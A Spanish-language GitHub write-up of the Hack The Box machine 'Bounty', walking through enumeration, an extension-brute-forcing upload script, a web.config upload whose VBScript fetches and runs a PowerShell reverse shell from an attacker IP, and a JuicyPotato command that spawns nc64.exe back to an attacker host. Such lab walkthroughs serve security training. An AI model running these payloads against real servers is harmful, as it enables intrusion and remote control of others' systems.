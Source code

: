 # Bounty-HTB

## NMAP

Esta maquina solo tiene el puerto 80 abierto.

![image](https://github.com/gecr07/Bounty-HTB/assets/63270579/4d99534a-d8d7-4b37-8450-fee111059940)

## Dirbuster y WFUZZ

Para esta maquina ya nos dimos cuenta que nos enfrentamos a un ***IIS 7.5*** buscamos archivos .aspx, .asp, .config.

```
dirbuster -u http://10.129.1.185/ -t 200 -l /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -r dirout.ext -e php,txt,html,asp,aspx,config


```
Siempre que estes probando algo creo que es bueno ver hacktricks.

> https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/iis-internet-information-services

Se encontro una pagina trasfer.aspx

![image](https://github.com/gecr07/Bounty-HTB/assets/63270579/39bea836-ef1f-41c3-a8c0-303c2e772704)


Siempre que tenemos este tipo de cosas hay que probar que extenciones permiten las que nos permitirian ejecutar comandos son .asp, aspx y .config ( esta yo no sabia). Otra ruta que se encontro es:

> http://10.129.18.176/UploadedFiles


## Python (probando extenciones que acepta)

Para probar extenciones se uso el script de s4vitar.

```python

#!/usr/bin/python3

from pwn import *
import signal, time, pdb, sys, requests, re

# Diccionario A Utilizar
# /usr/share/seclists/Discovery/Web-Content/raft-small-extensions.txt

transfer_url='http://10.129.137.104/transfer.aspx'

def def_handler(sig, frame):
	print("\n\n[!] Saliendo....\n")
	sys.exit(1)

#CTRL+ C
signal.signal(signal.SIGINT, def_handler)
#time.sleep(10)

burp = { 'http': 'http://127.0.0.1:8080'}

def uploadFile(extension):
	# Vamos a arrastrar sesiones
	#r = requests.get(transfer_url)
	s = requests.session()
	r = s.get(transfer_url)
	#pdb.set_trace()
	viewState = re.findall(r'id="__VIEWSTATE" value="(.*?)"',r.text)[0]
	#print(viewState)
	#pdb.set_trace()
	eventValidation = re.findall(r'__EVENTVALIDATION" value="(.*?)"',r.text)[0]
	#print(eventValidation)
	post_data = {
	'__VIEWSTATE': viewState,
	'__EVENTVALIDATION': eventValidation,
	'btnUpload': 'Upload'
	}
	fileUploaded = {'FileUpload1': ('Prueba%s' % extension, 'Esto es una prueba')}
	r = s.post(transfer_url,data=post_data,files= fileUploaded) # proxies=burp
	#print(r.text)
	if "Invalid File. Please try again"  not in r.text:
		#print ("La Extencion es correcta")
		log.info("La extension %s valida " % extension)




if __name__ == '__main__':
	f = open("/usr/share/seclists/Discovery/Web-Content/raft-small-extensions.txt", "rb")

	p1 = log.progress("Fuerza bruta")
	p1.status("Iniciando ataque de fuerza bruta")

	time.sleep(2)

	for extension in f.readlines():
		#pdb.set_trace()
		extension= extension.decode().strip()
		p1.status("Probando con la extension %s" % extension)
		uploadFile(extension)


```

![image](https://github.com/gecr07/Bounty-HTB/assets/63270579/1c58bea9-bc86-456c-9c6e-eb1277585549)


## Burpsuite

Se pueden probar las extenciones validas con el intruder.

![image](https://github.com/gecr07/Bounty-HTB/assets/63270579/0dae7f01-379a-43f8-973c-29fce098dab0)

Agregamos ahi en donde esta la extencion y nos vamos a payloads.

![image](https://github.com/gecr07/Bounty-HTB/assets/63270579/c5088d8c-fe65-4b72-8480-69a6ffde08aa)


Al lanzarlo tenemos un problema lo esta URL encodeando necesitamos arreglar eso o no funciona.

![image](https://github.com/gecr07/Bounty-HTB/assets/63270579/ba912ed8-fa64-4bba-ba6e-6bbd1dd4aa02)

Quitamos esa opcion. Si queremos que nos saque una frase cosa que veo ya inecesario solo fijate en el length

![image](https://github.com/gecr07/Bounty-HTB/assets/63270579/c85ba7ee-5e0c-4567-9eb0-7a704f16e08e)


## RCE

Entonces en este punto ya sabemos que se puede subir una extencion .config por lo que vamos a subir un web.config con una reverseshell.

```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.5/Invoke-PowerShellTcp.ps1')")
%>
```

![image](https://github.com/gecr07/Bounty-HTB/assets/63270579/a07d1f8f-3ce1-43cd-b514-8f956b4581db)

> https://research.nccgroup.com/2019/08/23/getting-shell-with-xamlx-files/

> https://0xdf.gitlab.io/2018/10/27/htb-bounty.html

> https://www.ivoidwarranties.tech/posts/pentesting-tuts/iis/web-config/ 

Con esto ganamos acceso a la maquina y ya sabes haciendo una enumeracion vemos el privilegio de SetImpersonate. Algo a destacar la flag estaba escondida como archivo oculto. usa las opciones /a:h tanto como para buscar como para listar.

### JuicePotato

La manera mas facil de escalar privilegios.

```
.\JuicyPotato.exe -t * -l 1337 -p cmd.exe -a "/c C:\Windows\Temp\Privesc\nc64.exe -e cmd.exe 10.10.14.22 1234" -c "{C49E32C6-BC8B-11d2-85D4-00105A1F8304}"

```

![image](https://github.com/gecr07/Bounty-HTB/assets/63270579/4d86d65b-f0b9-4819-a76a-4390e58a2420)


Recursos interesantes..

> https://github.com/psychsecurity/Red-Team-Infrastructure/blob/master/README.md

> 














































































